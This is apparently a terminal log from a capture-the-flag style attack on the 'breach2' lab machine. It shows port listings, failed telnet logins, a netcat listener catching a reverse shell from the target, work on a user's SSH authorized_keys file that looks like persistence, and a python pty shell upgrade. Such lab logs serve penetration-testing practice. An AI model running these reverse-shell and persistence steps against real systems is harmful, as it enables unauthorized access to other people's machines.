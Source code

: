 ```
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:2323          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:49235           0.0.0.0:*               LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
tcp6       0      0 :::111                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::51254                :::*                    LISTEN     
$ telnet localhost 2323
telnet localhost 2323
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
29 45'46" N 95 22'59" W 
breach2 login: 

Password: 


Login incorrect
breach2 login: 

Password: 


Login incorrect
root@kali:~/.ssh# nc -lvp 4780
listening on [any] 4780 ...
192.168.110.151: inverse host lookup failed: Unknown host
connect to [192.168.110.128] from (UNKNOWN) [192.168.110.151] 35443

ls -ld .ssh
drwx------ 2 peter peter 4096 Jun 25 11:29 .ssh
cd .ssh
ls -la
total 12
drwx------  2 peter peter 4096 Jun 25 11:29 .
drwxr-xr-x 19 peter peter 4096 Jun 19 16:42 ..
-rw-r--r--  1 peter peter  392 Jun 25 11:29 authorized_keys
chmod 600 authorized_keys
ifconfig
python -c 'import pty; pty.spawn("/bin/sh")'
$ crontab -e
crontab -e
Error opening terminal: unknown.
crontab: "/usr/bin/sensible-editor" exited with status 1
$ ls
ls
authorized_keys
$ ls -l
ls -l
total 4
-rw------- 1 peter peter 392 Jun 25 11:29 authorized_keys
$ cd ..
cd ..
$ ls
ls
Desktop    Downloads   Music	 Public     Videos
Documents  firefox.sh  Pictures  Templates
$ ls -la
ls -la
total 108
drwxr-xr-x 19 peter peter 4096 Jun 19 16:42 .
```